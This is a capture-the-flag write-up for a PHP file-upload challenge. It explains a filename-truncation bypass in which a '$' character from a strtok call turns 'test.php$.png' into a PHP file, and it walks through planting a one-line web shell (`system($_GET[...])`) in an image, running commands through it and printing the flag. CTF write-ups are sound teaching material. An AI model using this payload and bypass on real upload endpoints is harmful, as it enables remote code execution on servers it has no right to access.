 # PHP Sucks
## Description
> I hate PHP, and I know you hate PHP too. So, to irritate you, here is your PHP webapp. Go play with it <br>
> Created by: ```j4ck4l```

![image](https://github.com/user-attachments/assets/358b95d8-6315-41ba-bcbd-de9d2895f575)

Cleaning up the given php code to look better: -
```php
<?php
$allowedExtensions=['jpg','jpeg','png'];
$errorMsg='';
if($_SERVER['REQUEST_METHOD']==='POST'&&isset($_FILES['file'])&&isset($_POST['name'])){
	$userName=$_POST['name'];
	$uploadDir='uploaded/'.generateHashedDirectory($userName).'/';
if(!is_dir($uploadDir)){
	mkdir($uploadDir,0750,true);
}
$uploadedFile=$_FILES['file'];
$fileName=$uploadedFile['name'];
$fileTmpName=$uploadedFile['tmp_name'];
$fileError=$uploadedFile['error'];
$fileSize=$uploadedFile['size'];
$fileExt=strtolower(pathinfo($fileName,PATHINFO_EXTENSION));
if(in_array($fileExt,$allowedExtensions)&&$fileSize<200000){
	$fileName=urldecode($fileName);
	$fileInfo=finfo_open(FILEINFO_MIME_TYPE);
	$fileMimeType=finfo_file($fileInfo,$fileTmpName);
	finfo_close($fileInfo);
	$allowedMimeTypes=['image/jpeg','image/jpg','image/png'];
	$fileName=strtok($fileName,chr(7841151584512418084));
	if(in_array($fileMimeType,$allowedMimeTypes)){
		if($fileError===UPLOAD_ERR_OK){
			if(move_uploaded_file($fileTmpName,$uploadDir.$fileName)){
				chmod($uploadDir.$fileName,0440);
				echo"File uploaded successfully. <a href='$uploadDir$fileName' target='_blank'>Open File</a>";
			}else{
			$errorMsg="Error moving the uploaded file.";
			}
		}
		else{
			$errorMsg="File upload failed with error code: $fileError";
			}
	}else{
		$errorMsg="Don't try to fool me, this is not a png file";
}
}else{
	$errorMsg="File size should be less than 200KB, and only png, jpeg, and jpg are allowed";
}}
function generateHashedDirectory($userName){$randomSalt=bin2hex(random_bytes(16));
	$hashedDirectory=hash('sha256',$userName.$randomSalt);
	return $hashedDirectory;
}?>
```

`$fileName=strtok($fileName,chr(7841151584512418084));` -> This stuck out, since it is acting as a null byte i.e. read everything till this `chr(7841151584512418084)` which is a `$` when we actually check it in a php interpreter.

Below is the order of checks: -

1. Extension check using pathinfo().
2. MIME type check using magic bytes. So we should upload a file that has magic bytes that can get past this check (jpg,png).
3. If all checks pass, move the uploaded file into a new directory.

Our end goal is to get a file ending with .php in this directory, but uploading it directly will fail because of the checks.

This is where `$` comes in play, if `test.php$.png` is the file name, it will pass the first check.
```
php > echo pathinfo("test.php$.jpg",PATHINFO_EXTENSION);
jpg
```

The strtok before the 2nd check will get the filename upto the `$`.
```
php > echo strtok("test.php$.jpg",chr(7841151584512418084));
test.php
```

Since the file being uploaded is an actual png, we can either edit any bytes except the magic bytes to include our payload, something like `<?php system($_GET["0"]) ?>`.

Or we can also add our payload as exifdata, or just keep the magic bytes and our payload, anything will work.

Using the above filename and payload, we get a shell.
```
GET /uploaded/xxx/test.php?0=ls+-la+../../
total 3496
drwxr-x--- 1 root     ctf-player    4096 Dec 16 10:49 .
drwxrwxrwx 1 www-data www-data      4096 Dec 17 21:29 ..
-rwxr-x--- 1 root     ctf-player      69 Dec 16 10:36 s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
-rwxr-x--- 1 root     ctf-player    3939 Dec 16 10:36 upload.php
drwxrwxrwx 1 root     ctf-player 3551232 Dec 19 04:26 uploaded

GET /uploaded/xxx/test.php?0=cat+../../s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}
```

## FLag

`flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}`
